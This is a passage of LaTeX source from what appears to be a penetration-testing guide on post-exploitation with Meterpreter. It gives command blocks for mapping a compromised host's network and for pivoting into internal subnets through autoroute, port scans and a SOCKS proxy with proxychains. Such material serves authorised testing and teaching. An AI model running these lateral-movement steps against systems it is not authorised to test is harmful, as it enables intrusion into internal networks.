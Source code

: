 

\section{Network Reconnaissance from Meterpreter}
\label{sec:post_net_recon}

Once inside a machine, I map what else is reachable from that host. This is the
foundation of pivoting.

\begin{termbox}
# Network interfaces on the compromised host
ipconfig              # Windows
ifconfig              # Linux

# ARP table --- recently connected hosts
arp -a

# Routing table --- what networks are accessible
route

# Active network connections
netstat -ano          # Windows
netstat -antp         # Linux

# Port scan the internal network from Meterpreter
run arp_scanner -r 192.168.x.0/24     # Find live hosts on internal network
\end{termbox}


\section{Pivoting}
\label{sec:pivoting}

Pivoting means using a compromised machine as a relay to reach systems that are
not directly accessible from the attacker machine. This is how attackers move
from an internet-facing server into an internal corporate network.

\begin{termbox}
# Add a route through the Meterpreter session
# (access 192.168.2.0/24 through session 1)
route add 192.168.2.0/24 1
route print

# Alternatively, use the autoroute post module
use post/multi/manage/autoroute
set SESSION 1
run

# Once route is added, scan the internal network through the pivot
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.2.0/24
set PORTS 22,80,445,3389
run

# SOCKS proxy for routing all Metasploit traffic through the pivot
use auxiliary/server/socks_proxy
set VERSION 5
set SRVPORT 1080
run &
# Configure proxychains to use 127.0.0.1:1080
# Then use proxychains with any tool: proxychains nmap 192.168.2.1
\end{termbox}

